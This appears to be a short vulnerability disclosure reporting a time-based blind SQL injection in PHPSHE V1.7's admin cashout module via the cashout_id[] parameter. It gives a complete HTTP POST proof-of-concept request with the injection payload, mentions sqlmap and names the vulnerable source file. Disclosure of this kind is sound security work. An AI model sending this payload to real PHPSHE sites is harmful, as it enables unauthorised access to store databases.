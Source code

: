 # SQL1

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the cashout_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=cashout&act=success HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=cashout&state=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

cashout_id%5B%5D=1')+and+IF(1=1,sleep(2),1)+and+('1'='1

```
vulnerability verification:
![](https://github.com/lemon666/vuln/blob/master/1.png)
![](https://github.com/lemon666/vuln/blob/master/2.png）
Using sqlmap：
![](https://github.com/lemon666/vuln/blob/master/3.png）
the lines of code where the vulnerability exist：
module/admin/cashout.php
![](https://github.com/lemon666/vuln/blob/master/4.png）
